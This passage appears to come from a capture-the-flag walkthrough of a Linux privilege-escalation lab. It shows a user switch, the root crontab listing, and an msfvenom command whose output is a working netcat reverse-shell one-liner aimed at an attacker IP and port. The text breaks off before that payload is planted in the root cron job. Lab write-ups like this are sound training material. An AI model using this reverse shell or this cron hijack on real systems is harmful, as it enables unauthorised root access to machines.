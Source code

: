 ```
user8@polobox:~$ su - user4
Password: 
Welcome to Linux Lite 4.4 user4
 
Monday 19 October 2020, 14:23:33
Memory Usage: 335/1991MB (16.83%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user4@polobox:~$
```

`No answer needed`

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 

`No answer needed`

3. What is the flag to specify a payload in msfvenom?

`-p`

4. Create a payload using: "`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`"

```
bibo318@parrot:~/CTFs/tryhackme/Common Linux Privesc$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.106.222 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/mrimb; nc 10.8.106.222 8888 0</tmp/mrimb | /bin/sh >/tmp/mrimb 2>&1; rm /tmp/mrimb
```

`No answer needed`

5. What directory is the "autoscript.sh" under?

```
user4@polobox:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
